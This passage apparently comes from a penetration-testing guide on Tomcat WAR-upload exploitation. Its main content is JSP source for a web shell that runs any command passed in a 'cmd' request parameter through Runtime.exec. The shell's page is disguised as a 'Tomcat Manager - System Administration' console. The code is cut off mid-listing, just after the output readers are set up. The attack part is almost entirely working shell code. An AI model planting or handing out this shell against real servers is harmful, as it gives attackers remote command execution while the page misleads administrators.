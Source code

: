 ```bash
```

---

## WAR File Upload Exploitation

### Manager Interface WAR Deployment

#### JSP Web Shell Creation
```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// Advanced JSP Command Execution Shell
// Enhanced for penetration testing operations
//
%>
<HTML>
<HEAD>
    <TITLE>Tomcat Manager - System Administration</TITLE>
    <style>
        body { font-family: Arial, sans-serif; background: #f4f4f4; }
        .container { max-width: 800px; margin: 50px auto; background: white; padding: 20px; border-radius: 8px; box-shadow: 0 0 10px rgba(0,0,0,0.1); }
        .header { text-align: center; color: #333; border-bottom: 2px solid #007bff; padding-bottom: 10px; }
        .form-group { margin: 20px 0; }
        input[type="text"] { width: 70%; padding: 10px; border: 1px solid #ddd; border-radius: 4px; }
        input[type="submit"] { background: #007bff; color: white; padding: 10px 20px; border: none; border-radius: 4px; cursor: pointer; }
        .output { background: #000; color: #0f0; font-family: monospace; padding: 15px; border-radius: 4px; margin-top: 20px; min-height: 200px; overflow-x: auto; }
    </style>
</HEAD>
<BODY>
    <div class="container">
        <div class="header">
            <h2>System Command Interface</h2>
            <p>Tomcat Administrative Console</p>
        </div>
        
        <div class="form-group">
            <FORM METHOD="GET" NAME="cmdform" ACTION="">
                <input type="text" name="cmd" placeholder="Enter system command..." autofocus>
                <input type="submit" value="Execute">
            </FORM>
        </div>
        
        <% if (request.getParameter("cmd") != null) { %>
            <div class="output">
                <strong>Command:</strong> <%= request.getParameter("cmd") %><br><br>
                <strong>Output:</strong><br>
                <%
                try {
                    String cmd = request.getParameter("cmd");
                    Process p = Runtime.getRuntime().exec(cmd);
                    
                    // Handle both stdout and stderr
                    BufferedReader stdInput = new BufferedReader(new InputStreamReader(p.getInputStream()));
                    BufferedReader stdError = new BufferedReader(new InputStreamReader(p.getErrorStream()));
```